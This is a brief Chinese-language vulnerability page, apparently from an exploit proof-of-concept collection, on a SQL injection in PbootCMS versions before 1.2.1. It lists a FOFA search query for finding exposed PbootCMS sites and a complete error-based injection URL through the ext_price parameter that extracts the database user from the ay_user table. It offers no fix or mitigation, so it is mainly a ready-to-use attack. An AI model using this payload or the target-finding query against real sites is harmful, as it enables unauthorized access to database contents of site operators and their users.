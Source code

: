 # PbootCMS-ext_price-SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> PbootCMS < 1.2.1

## FOFA

> [!NOTE]
>
> app="PBOOTCMS"

## 漏洞复现

主页

![image-20210702113507454](PbootCMS-ext_price-SQL注入漏洞.assets/1627363035332053.jpg)

测试 Payload

```
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```

![image-20210702113552582](PbootCMS-ext_price-SQL注入漏洞.assets/1627363035710114.jpg)